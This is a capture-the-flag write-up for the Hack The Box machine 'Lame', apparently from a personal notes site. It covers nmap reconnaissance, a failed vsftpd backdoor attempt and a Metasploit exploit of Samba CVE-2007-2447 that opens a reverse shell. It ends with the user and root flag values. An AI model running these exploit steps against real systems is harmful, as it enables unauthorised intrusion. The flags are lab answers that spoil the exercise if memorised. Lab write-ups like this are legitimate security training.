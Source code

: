```yaml
---
{"dg-publish":true,"permalink":"/boxer/lame/"}
---
```


## Writeup
1. Initial Recon

``` 
sudo nmap -sT -vvv -n -Pn -p- -oG allPorts 10.10.10.3
```

![Pasted image 20240628135741.png](/img/user/Sources/Pasted%20image%2020240628135741.png)

2. Enumeration
```
sudo nmap -sT -Pn -sV 10.10.10.3 
```

![Pasted image 20240628135907.png](/img/user/Sources/Pasted%20image%2020240628135907.png)

```
sudo nmap --script=smb-os-discovery -p139,445 10.10.10.3
```

![Pasted image 20240628140045.png](/img/user/Sources/Pasted%20image%2020240628140045.png)

- As we have enumerated two services of ftp (Vsftpd 2.3.4) and SMB (Samba 3.0.30-Debian) we will try to search for potential exploits

3. Gaining Access and Exploitation

- In order to gain access we try searching version linked vulnerabilities in Vsftpd service
- We search using metasploit to discover possible exploits

```
msf6 > search name:vsftpd type:exploit
msf6 > use 0

msf6 > exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

```

![Pasted image 20240628140728.png](/img/user/Sources/Pasted%20image%2020240628140728.png)

- As we have setup up the exploit we try running it to see if we gain access

```
msf6 > exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

- We were unable to gain access through this service exploit lets research the other service at hand Samba 3.0.20
- Upon exploration we discover that there is a 2007 CVE attached to this version [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447#:~:text=The%20MS%2DRPC%20functionality%20in,%22username%20map%20script%22%20smb.)
- We can now search for potential exploits in a similar manner for this particular vulnerability

```
msf6 > search name:Samba 3.0.20 type:exploit

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0

```

![Pasted image 20240628142654.png](/img/user/Sources/Pasted%20image%2020240628142654.png)

4. Maintaining access and Extracting outputs
- Now we have gained access so let's extract the details using the reverse shell
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.41:4444 
[*] Command shell session 1 opened (10.10.14.41:4444 -> 10.10.10.3:49101) at 2024-06-28 04:09:57 -0400

pwd
/
```

- After entering the shell we determine the list of directories
![Pasted image 20240628143012.png](/img/user/Sources/Pasted%20image%2020240628143012.png)

- Makis seems interesting let's explore it further and we seem to have a flag text file
![Pasted image 20240628143012.png](/img/user/Sources/Pasted%20image%2020240628143012.png)
```
Flag user: 0e414761cc5078a6b6741214b7c8f730
```

- Now let's explore the home directory to explore its contents, and seems like we have our root flag text here
![Pasted image 20240628143145.png](/img/user/Sources/Pasted%20image%2020240628143145.png)
```
Flag user: ef2edc5988887baec7cead2aaeb880fd
```

5. We have officially pwned the box!

![pwned.png](/img/user/Sources/pwned.png)